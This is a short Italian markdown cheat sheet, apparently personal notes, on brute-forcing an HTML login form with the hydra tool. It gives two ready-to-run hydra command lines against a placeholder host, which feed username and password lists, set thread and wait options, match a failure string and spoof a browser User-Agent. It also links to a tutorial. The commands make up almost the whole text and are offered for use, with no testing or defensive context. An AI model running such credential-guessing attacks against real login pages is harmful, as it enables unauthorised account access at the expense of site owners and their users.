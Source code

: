 # hydra

## attacco a forza bruta di un form HTML

```
hydra test.bho https-form-post "/:user=^USER^&pass=^PASS^:Invalid" -L users.txt -P passw.txt -t 5 -w 6
```
con qualche finezza in più:
```
hydra -V -L users.txt -P pass.txt test.bho https-form-post "/login.php:u=^USER^&p=^PASS^:F=errore" -m "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
```


# link-o-grafia
- https://www.html.it/articoli/attacco-brute-force-di-un-form-con-hydra/
